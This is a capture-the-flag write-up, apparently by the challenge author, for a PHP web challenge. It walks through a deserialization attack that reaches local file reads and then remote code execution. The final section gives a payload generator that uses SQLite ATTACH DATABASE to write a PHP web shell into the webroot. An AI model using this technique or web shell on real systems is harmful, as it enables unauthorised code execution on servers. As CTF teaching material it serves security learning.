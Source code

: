 ```yaml
---
title: Cyberleague Quarterfinals 2022 - Pretty Hyper Phrog
date: 2022-12-23
excerpt: Pretty Hyper Phrog writeup - PHP deserialization to LFI + RCE
category: writeups
tags:
    - web
---
```


Writeup for one of the web challenges I set for [Cyberleague
2022](https://cyberleague.co/).

Here is the [source](/files/clqf-2022/php.zip)

The main vuln is PHP deserialization. In PHP, this allows
for arbitrary properties to be assigned to objects. In addition, the class of
the object can also be controlled. With these interesting capabilities of unsafe
deserialization, I made a 2-phase challenge that will require one to leverage
both concepts + some other exotic concepts to ultimately get RCE.

# Phase 1: LFI

Since the source wasn't provided in the CTF, our first goal is to get some sort
of LFI to get the complete source. 


Here's a sample "password", our attack vector:

```
Tzo0OiJVc2VyIjozOntzOjc6InBpY3R1cmUiO3M6MTY6InN0YXRpYy9waHJvZy5naWYiO3M6ODoidXN lcm5hbWUiO3M6ODoic2FtdXpvcmEiO3M6NDoidXVpZCI7czoxMzoiNjNhNDYyNTViNGM5YiI7fQ==
```

We know that each user's password is a PHP serialized object, and there is a
property `picture` that is pointing to `static/phrog.gif`. After some
experimenting we see that this is passed to `file_get_contents`, which we can
use to enumerate the source.

---

# Phase 2: RCE

We not only want LFI, we want RCE too! With big and well-known frameworks, PHP
deserialization is a piece of cake, as there are ready-made RCE gadget chains
online. However, this is a custom implementation so it doesn't exist. We need to
make it ourselves :(

Some of the leaked files:

index.php
```php
<?php
require("user.php");
require("util.php");

$conn = new Conn;

if (array_key_exists("password", $_COOKIE) === false) {
    echo file_get_contents("static/index.html");
    die();
}
$temp = unserialize(base64_decode($_COOKIE["password"]));
$conn->query = "select username, uuid from users where uuid = :uuid";
$conn->params = array(":uuid" => $temp->uuid);
$result = $conn->query();
if ($result) {
    $user = $temp;
} else {
    header("Location: /login.php");
}
?>

<!DOCTYPE html>
<head>
    <link href="https://cdn.jsdelivr.net/npm/bootstrap@5.0.2/dist/css/bootstrap.min.css" rel="stylesheet" integrity="sha384-EVSTQN3/azprG1Anm3QDgpJLIm9Nao0Yz1ztcQTwFspd3yD65VohhpuuCOmLASjC" crossorigin="anonymous">
    <script src="https://cdn.jsdelivr.net/npm/bootstrap@5.0.2/dist/js/bootstrap.bundle.min.js" integrity="sha384-MrcW6ZMFYlzcLA8Nl+NtUVF0sA7MsXsP1UyJoMp4YLEuNSfAP+JcXn/tWtIaxVXM" crossorigin="anonymous"></script>
</head>
<body>
    <div class="container mt-5 px-auto">
        <div class="row">
            <div class="col">
                 <?php echo $user->whoami(); ?>
            </div>
            <div class="col">
                <p>I hope u like phrogs</p>
            </div>
        </div>
    </div>
</body>
```

user.php
```php
<?php
class User {
    public $picture;
    public $username;
    public $uuid;

    public function __construct(string $username, string $uuid) {
        $this->username = $username;
        $this->picture = "static/phrog.gif";
        $this->uuid = $uuid;
    }
    
    public function whoami() {
        $picture = base64_encode(file_get_contents($this->picture));
        return "
            <div class='card' style='width: 50%'>
                <img class='card-img-top' src='data:image/gif;base64,{$picture}' class='rounded' alt='phrog'>
                <div class='card-body'>
                    <h5 class='card-title'>User: {$this->username}</h5>
                    <p>uuid: {$this->uuid}</p>
                </div>
            </div>
        ";
    }
}
?>
```

util.php
```php
<?php
class Conn {
    public $query;
    public $params;

    public function __call(string $name, array $arguments) {
        $conn = new SQLite3("/sqlite3/db");
        $query = $this->query;
        foreach ($this->params as $key=>$value) {
            $value = $conn->escapeString($value);
            $query = str_replace($key, "'$value'", $query);
        }

        // in case we ever need to execute multiple queries
        $queries = explode("; ", $query);
        foreach ($queries as $temp) {
            $result = $conn->query($temp);
        }
        if ($result !== false) {
            if ($result->numColumns()) {
                return $result->fetchArray();
            } else {
                return true;
            }
        } else {
            return $result;
        }
    }
}
?>
```

Some things to note:

1. In `Conn`, the query is being prepared manually. This could maybe give us
   SQLi, if we manage to bypass the (not so stringent) checks. Props to RVCTF
   who found an unintended solution via the weak escaping. (The reason why I had
   to implement my own query, is because we need multiple queries for the
   exploit - and I couldn't find a driver that could allow me to do that. So I
   exploded based on `; ` and ran each query manually.)
2. In `Conn`, `__call` is being used to invoke the query function. [This magic
   method](https://www.phptutorial.net/php-oop/php-__call/) defines a fallback
   for undefined properties that are invoked.

As you might guess based on the context of the challenge, we can change `$temp`
(and hence `$user`) into a `$Conn` object. This would allow us to control the
`$query` array in our poisoned object and execute our own queries via the
`->whoami()` call (since it doesn't exist on a `$Conn`, it will fallback to
`__call()`). While we do this, we also need to ensure that `->username` and
`->uuid` remains constant so we pass the check.

With this we can execute arbitrary SQL (should I call this SQLi?). But how to
get RCE?

SQLite uses a single-file database locally, instead of connecting to a remote
service. And we can attach new databases to arbitrary locations, which creates a
file with some binary content, as well as whatever we insert into the new
database. 

So in a fashion similar to PHP web shells, we can create a malicious SQLite
database in `/var/www/html`, create a table and insert a row with our web
shell, thus gaining RCE!

Below is the code to generate the payload:

```php
<?php
class Conn {
    public $username = 'samuzora';
    public $uuid = '63a46255b4c9b';
    public $query = "attach database './63a46255b4c9b.php' as test; create table test.a (payload text); insert into test.a values ('<?php system(\$_GET[\"cmd\"]) ?>')";
    public $params = array();
}
echo base64_encode(serialize(new Conn));
?>
```
